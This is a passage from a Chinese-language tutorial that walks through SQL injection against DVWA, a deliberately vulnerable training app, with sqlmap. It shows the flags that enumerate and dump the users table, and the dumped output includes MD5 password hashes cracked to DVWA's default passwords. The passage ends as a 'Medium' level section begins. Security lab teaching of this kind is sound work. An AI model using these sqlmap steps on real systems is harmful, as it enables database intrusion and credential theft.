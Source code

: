 然后，我们指定数据库并且指定表名，拿到列，通过标志 `-D dvwa -T users --column` :

```
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
```

最后，我们当然希望拿到表里面的数据了，通过标志 `-D dvwa -T users --dump` 即可实现：

```
Database: dvwa                                                                                                                 
Table: users
[5 entries]
+---------+---------------------------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | avatar                                      | user    | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------------------------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 1       | http://localhost/hackable/users/admin.jpg   | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2022-06-19 15:01:58 | 0            |
| 2       | http://localhost/hackable/users/gordonb.jpg | gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2022-06-19 15:01:58 | 0            |
| 3       | http://localhost/hackable/users/1337.jpg    | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2022-06-19 15:01:58 | 0            |
| 4       | http://localhost/hackable/users/pablo.jpg   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2022-06-19 15:01:58 | 0            |
| 5       | http://localhost/hackable/users/smithy.jpg  | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2022-06-19 15:01:58 | 0            |
+---------+---------------------------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+
```

这里的密码是通过 `md5` 加密的，遍历 `sqlmap` 的字典可以破解一些简单的密码。

### Medium 等级

修改为 `medium` 等级。

#### 分析 php 源码
